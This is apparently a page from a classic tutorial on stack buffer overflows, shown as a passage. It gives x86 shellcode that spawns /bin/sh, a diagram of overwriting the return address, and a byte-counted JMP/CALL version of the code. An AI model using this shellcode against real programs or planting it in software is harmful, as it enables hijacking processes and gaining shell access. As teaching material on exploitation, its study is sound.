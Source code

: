 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
movl   string_addr,string_addr_addr
movb   $0x0,null_byte_addr
movl   $0x0,null_addr
movl   $0xb,%eax
movl   string_addr,%ebx
leal   string_addr,%ecx
leal   null_string,%edx
int    $0x80
movl   $0x1, %eax
movl   $0x0, %ebx
int    $0x80
\end{verbatim}
\verb+/bin/sh+ string goes here.

The problem is that we don't know where in the memory space of the program we are trying to exploit the code 
(and the string that follows it) will be placed. One way around it is to use a JMP, and a CALL instruction. The 
JMP and CALL instructions can use IP relative addressing, which means we can jump to an offset from the 
current IP without needing to know the exact address of where  in memory we want to jump to. If we place a 
CALL instruction right before the "/bin/sh" string, and a JMP instruction to it, the strings address will be 
pushed onto the stack as the return address when CALL is executed. All we need then is to copy the return 
address into a register. The CALL instruction can simply call the start of our code above. Assuming now that J 
stands for the JMP instruction, C for the CALL instruction, and s for the string, the execution flow would now 
be: 

{\tiny
\begin{verbatim}
        bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
        memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
                   buffer                sfp   ret   a     b     c
        <------   [JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]
                   ^|^             ^|            |
                   |||_____________||____________| (1)
               (2)  ||_____________||
                     |______________| (3)
top of                                                                 bottom of
stack                                                                  stack
\end{verbatim}
}

[There are not enough small-s in the figure; strlen("/bin/sh") == 7.] With this modifications, using indexed addressing, and writing down how many bytes each instruction takes our code looks like: 

\begin{verbatim}
jmp    offset-to-call           # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,array-offset(%esi)  # 3 bytes
movb   $0x0,nullbyteoffset(%esi)# 4 bytes
movl   $0x0,null-offset(%esi)   # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   array-offset(%esi),%ecx # 3 bytes
leal   null-offset(%esi),%edx   # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   offset-to-popl           # 5 bytes
\end{verbatim}
/bin/sh string goes here.
\end{document}
